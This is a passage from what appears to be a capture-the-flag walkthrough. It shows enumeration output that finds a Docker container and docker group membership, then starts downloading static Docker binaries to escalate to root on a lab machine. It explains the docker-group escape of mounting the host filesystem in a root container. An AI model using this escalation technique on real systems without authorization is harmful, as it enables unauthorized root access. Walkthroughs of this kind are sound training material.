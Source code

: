 The output from this command is pretty long, and you should definitely read through it all, so you know what it's capable of, but in the interest of shortening the post, I'll show you what caught my eye:
```
[+] Looks like we're in a Docker container:
12:blkio:/docker/487be6aafa6f7791ab73237ca612e8d7a59326a15aa7fdb4a5fbfbcf69cc91d2
11:perf_event:/docker/487be6aafa6f7791ab73237ca612e8d7a59326a15aa7fdb4a5fbfbcf69cc91d2
9:memory:/docker/487be6aafa6f7791ab73237ca612e8d7a59326a15aa7fdb4a5fbfbcf69cc91d2
8:devices:/docker/487be6aafa6f7791ab73237ca612e8d7a59326a15aa7fdb4a5fbfbcf69cc91d2
7:freezer:/docker/487be6aafa6f7791ab73237ca612e8d7a59326a15aa7fdb4a5fbfbcf69cc91d2
6:net_cls,net_prio:/docker/487be6aafa6f7791ab73237ca612e8d7a59326a15aa7fdb4a5fbfbcf69cc91d2
5:cpuset:/docker/487be6aafa6f7791ab73237ca612e8d7a59326a15aa7fdb4a5fbfbcf69cc91d2
4:hugetlb:/docker/487be6aafa6f7791ab73237ca612e8d7a59326a15aa7fdb4a5fbfbcf69cc91d2
3:pids:/docker/487be6aafa6f7791ab73237ca612e8d7a59326a15aa7fdb4a5fbfbcf69cc91d2
2:cpu,cpuacct:/docker/487be6aafa6f7791ab73237ca612e8d7a59326a15aa7fdb4a5fbfbcf69cc91d2
1:name=systemd:/docker/487be6aafa6f7791ab73237ca612e8d7a59326a15aa7fdb4a5fbfbcf69cc91d2
-rwxr-xr-x 1 root root 0 May 24 23:39 /.dockerenv

[+] We're a member of the (docker) group - could possibly misuse these rights!
uid=1000(harrison) gid=1000(harrison) groups=1000(harrison),27(sudo),999(docker)
```
Jackpot!  We're in a Docker container.  Even better, we're a member of the docker group.  That means we can run docker ourselves.  Without getting too technical, when you run a docker container, unless you tell it not to, it'll run as root.  If you run a container as root (Which you're allowed to do as a member of the Docker group), and mount the underlying file system, you basically have root on that system!  Pretty neat, huh?

Let's see how it's done

#### Get the Root Flag:

To misuse docker, we need to run it.  Alas:
```
harrison@harrison:~$ docker
bash: docker: command not found
harrison@harrison:~$ which docker
harrison@harrison:~$
```
Docker isn't installed in the container.  Installing it would be tricky, since we don't have sudo, or the root password.  Good news is that Docker offers the binaries for download, without needing to install them:

```
wget https://download.docker.com/linux/static/stable/x86_64/docker-18.03.0-ce.tgz && tar zxf docker-18.03.0-ce.tgz && cd docker && ./docker
```
```
harrison@harrison:~$ wget https://download.docker.com/linux/static/stable/x86_64/docker-18.03.0-ce.tgz
--2019-05-25 00:50:07-- https://download.docker.com/linux/static/stable/x86_64/docker-18.03.0-ce.tgz
Resolving download.docker.com (download.docker.com)... 13.224.2.97, 13.224.2.123, 13.224.2.101, ...
Connecting to download.docker.com (download.docker.com)|13.224.2.97|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 38752537 (37M) [application/x-tar]
Saving to: 'docker-18.03.0-ce.tgz'

docker-18.03.0-ce.tgz 100%[============================================================================================================>] 36.96M 13.1MB/s in 2.8s

2019-05-25 00:50:10 (13.1 MB/s) - 'docker-18.03.0-ce.tgz' saved [38752537/38752537]

harrison@harrison:~$ tar zxf docker-18.03.0-ce.tgz
harrison@harrison:~$ ls
LinEnum.sh docker docker-18.03.0-ce.tgz flag.txt silly_cats
harrison@harrison:~$ cd docker
```